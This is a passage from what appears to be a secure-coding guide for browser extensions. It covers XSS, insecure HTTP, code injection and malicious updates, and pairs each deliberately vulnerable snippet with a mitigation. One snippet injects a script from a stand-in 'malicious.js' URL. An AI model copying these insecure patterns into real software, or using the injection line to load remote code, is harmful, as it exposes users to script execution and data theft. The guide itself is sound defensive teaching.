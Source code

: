 ```
    let userInput = document.getElementById('input').value;     document.getElementById('output').innerHTML = userInput; // No sanitization
```
 
### Mitigation: Cross-Site Scripting (XSS) 
Implement Content Security Policy (CSP) to block inline scripts. Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of injected scripts.
 ## 4. Insecure Communication {#4-insecure-communication}
 ### Vulnerability: Insecure Communication
 Some extensions send sensitive data over unsecured HTTP connections,
making it vulnerable to interception by attackers. 
### Example: Insecure Communication 
```
     fetch('http://example.com/api/data');
```
 
### Mitigation: Insecure Communication 
Always use HTTPS for external communications to prevent data theft. Validate server responses before processing them to ensure data
integrity. 
## 5. Code Injection {#5-code-injection} 
### Vulnerability: Code Injection 
An extension that dynamically loads scripts from an untrusted source can be exploited to inject and execute malicious code.
 ### Example: Code Injection
 
```
    let script = document.createElement('script');     script.src = 'http://example.com/malicious.js';
    document.body.appendChild(script); 
```
 ### Mitigation: Code Injection
 Use CSP (Content Security Policy) to restrict script sources. For more
details, refer to the [CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).
Avoid using eval() and innerHTML as they can execute malicious code. Prefer using extension messaging APIs instead of injecting scripts into
web pages. 
## 6. Malicious Updates {#6-malicious-updates} 
### Vulnerability: Malicious Updates 
If an extension fetches updates from an untrusted server, an attacker could push malicious updates to all users.
 ### Example: Malicious Updates
 